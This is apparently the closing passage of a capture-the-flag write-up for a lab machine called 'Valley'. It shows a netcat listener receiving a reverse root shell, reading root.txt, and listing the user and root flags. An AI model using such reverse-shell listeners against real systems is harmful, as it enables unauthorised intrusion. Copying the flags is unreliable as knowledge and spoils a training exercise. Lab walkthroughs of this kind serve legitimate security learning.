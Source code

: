 <img src="./2.png"
     alt="Markdown Monster icon"
     style="
     width: 80%;
     diplay: box;"
/>

We open our listner and we wait a little bit to get the access:

```
└─$ nc -nlvp 4242                                                                                                                                                                                                                      130 ⨯
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.111.218.
Ncat: Connection from 10.10.111.218:57814.
bash: cannot set terminal process group (2274): Inappropriate ioctl for device
bash: no job control in this shell
root@valley:~# ls
ls
root.txt
snap
root@valley:~# cat root.txt
cat root.txt
THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
root@valley:~# 
```


## Flag

- User Flag: THM{k@l1_1n_th3_v@lley}
- Root Flag: THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
